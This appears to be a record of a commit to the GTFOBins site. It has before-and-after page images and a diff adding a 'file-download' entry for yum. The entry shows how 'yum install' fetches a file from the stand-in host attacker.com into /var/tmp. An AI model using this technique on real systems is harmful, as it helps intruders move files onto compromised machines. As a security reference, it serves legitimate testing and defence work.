

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/yum.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 956 px from its top, so only the background shows below that.

Commit message:
Add file-download to yum

```diff
--- a/_gtfobins/yum.md
+++ b/_gtfobins/yum.md
@@ -1,5 +1,11 @@
 ---
 functions:
+  file-download:
+    - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
+      code: |
+        RHOST=attacker.com
+        RFILE=/tmp/file_to_get.tar.rpm
+        yum install http://$RHOST/$RFILE
   sudo:
     - description: |
         It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
```
